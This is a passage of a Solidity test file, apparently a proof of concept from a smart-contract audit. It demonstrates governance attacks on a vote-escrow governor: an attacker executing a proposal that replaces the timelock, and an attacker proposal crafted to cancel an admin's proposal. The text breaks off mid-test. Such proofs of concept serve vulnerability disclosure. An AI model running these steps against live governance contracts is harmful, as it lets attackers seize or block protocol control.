 ```Solidity

        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period

        // execution of the last proposal
        hevm.startPrank(beef);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t2, v2, c2, keccak256(bytes(d2)), MAINNET);
        hevm.stopPrank();

        uint currentQuorum = governor.quorumNumerator();
        console2.log("Current Quorum:  ", currentQuorum);

        // The attacker now executes the proposal
        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        console2.log("Current Timelock:  ", governor.timelock()); // The timelock contract updated
    }

    function testCancellingProposalsAttack() public {
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef, 5e22, MAXTIME, false);
        createVeAlcx(dead, 15_000e18, MAXTIME, false);

        hevm.warp(block.timestamp + 50);

        // The first proposal which is an important proposal which admin proposes

        hevm.startPrank(admin);
        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(admin);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // The attacker proposes a proposal aiming to cancel the aforementioned proposal

        hevm.startPrank(dead);

        (address[] memory t1, uint256[] memory v1, bytes[] memory c1, string memory d1) = 
            craftCancellingProposal(t, v, c, d, MAINNET);
        uint256 pid1 = governor.propose(t1, v1, c1, d1, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(dead);
        governor.castVote(pid1, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
```